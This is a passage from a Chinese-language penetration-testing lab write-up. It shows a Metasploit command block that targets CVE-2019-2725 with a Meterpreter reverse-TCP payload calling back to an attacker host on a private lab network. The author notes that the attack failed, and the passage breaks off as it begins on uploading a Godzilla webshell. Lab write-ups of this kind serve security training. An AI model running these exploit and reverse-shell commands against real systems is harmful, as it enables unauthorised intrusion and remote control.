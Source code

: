 ![Untitled](ATT&CK-2%204ee62577f68b4c6f932f048639d26d48/Untitled%205.png)

存在多个漏洞，并且还提示了CVE的漏洞编号，这里直接去msf中搜索相对应的exp进行攻击

```c
search CVE-2019-2725
use 0
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.5.128
set RHOST 192.168.5.131
set target 1
```

这里不知道为什么攻击失败了

**上传哥斯拉木马**

先生成木马文件
